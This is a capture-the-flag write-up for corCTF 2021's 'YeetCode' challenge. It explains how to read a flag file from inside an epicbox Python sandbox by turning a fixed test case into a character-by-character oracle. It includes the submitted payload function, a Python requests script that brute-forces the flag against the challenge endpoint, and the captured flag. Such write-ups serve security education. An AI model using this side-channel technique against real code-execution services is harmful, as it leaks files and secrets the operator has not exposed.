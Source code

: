 # YeetCode - corCTF 2021

- Category: Misc
- Points: 402
- Solves: 165
- Solved by: Iregon

## Description

Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt

[https://yeetcode.be.ax](https://yeetcode.be.ax)

## Solution

Opening the link we can see a text area in which we can write some Python code that is send to the backend that return a score of test cases passed.

So, most probably the code is executed in a sandbox.

Analizing the [source code](yeetcode.tar.xz) that was given in the challenge we can see that we were right, the code is executed in a `epicbox` sandbox:

```python
...

files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
limits = {'cputime': 1, 'memory': 16}
result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

...
```

With the file `code.py` that contains our code, we have a file named `flag.txt` that looks intresting.

From the source code we can se also that 2 of the 10 test cases are fixed:

```python
...

tests = [(2, 3, 5), (5, 7, 12)]
for _ in range(8):
    a, b = random.randint(1, 100), random.randint(1, 100)
    tests.append((a, b, a + b))

...
```

So, we can try to exfiltrate the flag character by character using the first test case with the following code:

```python
def f(a,b):
    char = ord(open('flag.txt', 'r').read()[§1§])
    return char - §2§ if a==2 and b==3 else -1
```

Where:
- `§1§`: position of the character tha we want;
- `§2§`: decimal value (minus 5) of the character with which we want to compare it.

If the result returned contains `"p": "1"` we find the character.

Now, the only thing to do is to iterate the process until we find the character `}`:

```python
import requests
from string import ascii_lowercase, digits

chars = ascii_lowercase + digits + '_-{}'
flag = ""

def send_req(index, rem):
    return requests.post('https://yeetcode.be.ax/yeetyeet', data="def f(a,b):\n\tchar=ord(open('flag.txt', 'r').read()[" + str(index) + "])\n\treturn char-" + str(rem) + " if a==2 and b==3 else -1").json()

x = len(flag)
while True:
    for i in chars:
        res = send_req(x, ord(i)-5)
        if(res['p'] == 1):
            flag += i
            print(flag)
            x += 1
            if flag[-1] == '}':
                exit
            break
```

**P.S.** This process is very slow, it can be optimized using together the first two test case and check two character at the same time.

## Flag

```
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```